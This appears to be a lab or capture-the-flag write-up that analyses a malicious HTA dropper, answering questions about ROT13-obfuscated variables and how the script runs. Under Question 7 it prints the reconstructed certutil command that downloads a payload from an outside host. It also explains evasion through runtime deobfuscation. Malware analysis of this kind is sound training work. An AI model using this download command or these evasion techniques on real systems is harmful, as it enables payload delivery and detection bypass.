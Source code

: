 Same method as the previous ones 

<img width="923" height="813" alt="image" src="https://github.com/user-attachments/assets/3f894424-da93-466d-bab3-49e857b81935" />

#### Question 6: What is the deobfuscated value of the "wobj" variable?

Same logic decrypt it using rot13

<img width="932" height="722" alt="image" src="https://github.com/user-attachments/assets/bde44714-3c93-46a6-9d4e-c20ea95582f9" />

#### Question 7: What is the purpose of the cmd variable in the script?

this is the CMD variable 
```powershell
cmd = "%comspec% /v /c \"set t=" + str3 + "&&" + str1 + "!t!" + str2 + "\"";
```
just add in the variables stored in str3 str2 and str1 to combine the full command 

```powershell
%comspec% /v /c "set t=http://&&certutil.exe -urlcache -split -f!t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
```

#### Question 8: What is the second command executed by the "ActiveXObject"

This is stored under str4 variable 


## What does the malware do?

This HTA file is a multi-stage malware **dropper**. Its primary function is to download a malicious payload from a remote server, decode it, and execute it on the victim's machine. It employs several common obfuscation and defense evasion techniques to avoid detection by security software. The entire attack is automated and occurs silently in the background once the HTA file is opened.

## Core Techniques: Obfuscation and Execution

The script relies on two fundamental components to achieve its goal.

### 1. Obfuscation
The script's main defense is hiding its true intent.
*   **ROT13 Cipher**: All critical strings—commands, file paths, and URLs—are encoded using a simple ROT13 cipher. They are never stored in plain text.
*   **Runtime Deobfuscation**: The `scram()` function acts as the ROT13 decoder. It translates the encoded strings into executable commands only when the script is running, bypassing static analysis tools that scan file contents for malicious keywords.

### 2. Execution Engine
The script uses a legitimate Windows component to interact with the operating system.
*   **`ActiveXObject("Wscript.shell")`**: The deobfuscated `wobj` variable creates an instance of the Windows Script Host Shell. This powerful object allows the JScript code to run system commands with the same privileges as the user, effectively bridging the gap between the HTA script and the underlying OS.
